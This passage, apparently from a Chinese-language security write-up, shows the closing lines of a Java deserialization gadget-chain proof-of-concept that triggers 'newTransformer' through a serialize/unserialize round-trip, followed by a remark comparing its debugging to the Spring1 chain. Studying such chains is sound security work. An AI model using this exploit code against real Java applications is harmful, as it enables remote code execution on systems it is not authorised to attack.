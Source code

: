 ```plain
        Object object=constructor2.newInstance(TypeProvider,Object.class.getMethod("toString"),1);
        setFieldValue(object,"methodName","newTransformer");
        unserialize(serialize(object));

    }
}
```

简单调试如下，与`spring1`大同小异：

[![](assets/1706145875-f6acdc908db60f2d3ecbb578dcd130cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122223127-ed0d944e-b932-1.png)

[![](assets/1706145875-1697ed36efa6a9e9cd12f40c78f7458c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122223135-f21af08a-b932-1.png)
